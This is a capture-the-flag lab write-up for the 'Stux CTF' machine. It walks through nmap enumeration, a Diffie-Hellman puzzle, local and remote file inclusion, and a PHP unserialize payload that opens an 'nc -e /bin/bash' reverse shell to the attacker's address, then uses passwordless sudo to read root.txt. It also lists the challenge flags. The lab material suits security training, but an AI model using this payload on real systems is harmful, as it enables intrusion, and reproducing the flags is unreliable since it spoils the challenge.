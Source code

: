 # Stux CTF writeup

## Enumeration

Using `sudo nmap -Pn -p- -v -A 10.10.189.199` to find open ports, and which services reside at these ports.

![nmap scan](images/nmap.png)

The scan found an endpoint (`/StuxCTF/`) in the robots.txt folder. This page, however, gives us a 404 exception.


Heading back to the index of port 80 I inspect the element and find something about a secret directory.

![secret directory](images/inspect.png)

This problem immediately made me think of a discrete logarithm problem. More spesifically Diffie Hellman.
p is a public prime, and g a public generator, and a and b are Alice's and Bob's respective private keys. g^c might be a third person's g^c mod p public key.

In order to create a shared secret key using Diffie Hellman, you simply combine all peoples public keys together with your own private key like this:

shared_secret = (a_public * b_public)^(c_private) mod p = (g^a_private mod p * g^b_private mod p)^(c_private) mod p = g^(a_private*b_private*c_private) mod p

![dh](images/dh.png)
![dh short](images/128dh.png)

Aaaand, that's our first flag!

3. What is the hidden directory?
    * 47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055

By inspecting the source code of this website, we're graciously given a hint to head over to `/?file=`

![hint](images/hint.png)

Typing a random argument in the `/?file=` endpoint takes us to a page that says that the file doesn't exist.

![No Exist](images/NoExist.png)

By checking for a [lfi vulnerability](https://www.netsparker.com/blog/web-security/local-file-inclusion-vulnerability/) (reference the directory's `index.php` file), we seem to accidentaly have discovered a new code. This code is, at least, different from the modular arithmetic code we calculated above. Using our local web server we also found out that the website has a [rfi vulernability](https://www.imperva.com/learn/application-security/rfi-remote-file-inclusion/)

![lfi](images/lfi.png)

This seems an awful lot like hexadecimals, so i use an online converter to get the decoded string.

The decoded string seems to be obscured by something yet again. The double `==` at the start of this string makes it look like reversed base64.

![base64](images/base64.png)

We end up by getting the index.php file when reverting and decoding the base64 string.

![php](images/php.png)

This code may seem innocent at first (except for the inclusion of a lfi exploit), but the `unserialize` method in the last line is vulnerable for remote code execution if we're able to upload our own code to the function. [This article explains the exploit really well](https://www.netsparker.com/blog/web-security/untrusted-data-unserialize-php/), but the crux of this exploit is that if we `serialize` some php code on our local machine and make the website's `unserialize` method unserialize our php code, it execute it if certain conditions are met. 

The code you want to serialize should look like this:
```php
    <?php
        class file{
            public $file = 'file.php'; // Name of the file we are making on the remote server
            public $data = '<?php shell_exec("nc -e /bin/bash 10.9.81.67 7575"); ?>'; // Spawning a bash shell and sending it to our gateway
        }
        echo (serialize(new file)); //Serialize the "file" function
    ?>
```

By serializing the php code `php inject.php > inject.php` you get a text file with the serialized data `O:4:"file":2:{s:4:"file";s:10:"remote.php";s:4:"data";s:55:"<?php shell_exec("nc -e /bin/bash 10.9.81.67 7575"); ?>";}`

Upload this file to the website through the rfi vulnerability we found earlier

![inject link](images/injectLink.png)

The file should then be saved as `file.php` in the directory.

Start up netcat `nc -lvnp 7575` and head over to the newly uploaded `file.php` to execute the file.

![file](images/file.png)

Connected as www-data!

![www-data](images/ncConnect.png)

We see a user named `grecia` when navigating to the home directory. 
Grecia's user.txt is located here!

![user.txt](images/user.png)

1. user.txt
    * 0b6044b7807dd100b9e30f1bd09db53f

By running `sudo -l` we can see which (if any) commands we are able to run with escalated privileges. To my surprise all commands can be run as root without providing a password.

![Sudo](images/sudo.png)

The www-data user is naturally not allowed to access the root folder, but we may still see the content of root.txt by running `sudo cat /root/root.txt`.

Rooted! :^)

![rootes](images/root.png)

2. root.txt
    * 0028454003b42601548df551b738976c

